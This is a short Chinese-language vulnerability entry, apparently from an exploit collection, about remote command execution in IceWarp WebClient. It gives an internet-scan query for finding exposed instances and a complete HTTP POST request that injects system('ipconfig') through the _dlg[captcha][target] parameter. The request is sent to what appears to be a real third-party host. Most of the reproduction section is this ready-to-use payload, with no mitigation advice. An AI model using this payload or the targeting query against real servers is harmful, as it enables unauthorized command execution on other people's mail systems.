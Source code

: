 # IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响 

```
IceWarp WebClient
```

## 网络测绘

```
app="IceWarp-公司产品"
```

## 漏洞复现

登录页面如下

![](images/202202101850566.png)



漏洞请求包为

```plain
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```



![](images/202202101851258.png)